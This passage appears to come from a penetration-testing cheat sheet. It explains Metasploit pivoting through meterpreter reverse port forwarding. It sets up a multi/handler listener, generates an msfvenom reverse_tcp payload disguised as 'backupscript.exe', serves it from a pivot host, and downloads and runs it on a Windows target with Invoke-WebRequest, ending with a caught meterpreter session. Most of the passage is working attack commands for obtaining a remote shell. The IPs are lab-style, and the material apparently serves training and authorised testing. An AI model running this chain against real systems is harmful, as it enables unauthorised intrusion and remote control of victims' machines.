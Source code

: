 **Parameters:**
- `-l`: Local port on attack machine
- `-p`: Remote port on target
- `-r`: Target IP

### Reverse Port Forwarding

Used to catch reverse shells from internal targets.

#### Setup
```bash
# In meterpreter session
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

**Parameters:**
- `-R`: Reverse forward
- `-l 8081`: Port on attack machine
- `-p 1234`: Port on pivot
- `-L 10.10.14.18`: Attack machine IP

#### Create Handler for Reverse Shell
```bash
# Setup handler
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 8081
set LHOST 0.0.0.0
exploit -j
```

#### Generate Payload for Internal Target
```bash
# Payload connects to pivot, forwards to you
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=172.16.5.129 \
  LPORT=1234 \
  -f exe \
  -o backupscript.exe
```

#### Deploy and Execute
```bash
# Host on pivot
python3 -m http.server 8123

# On Windows target
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
C:\backupscript.exe

# Shell caught through reverse tunnel
[*] Meterpreter session 2 opened
```

---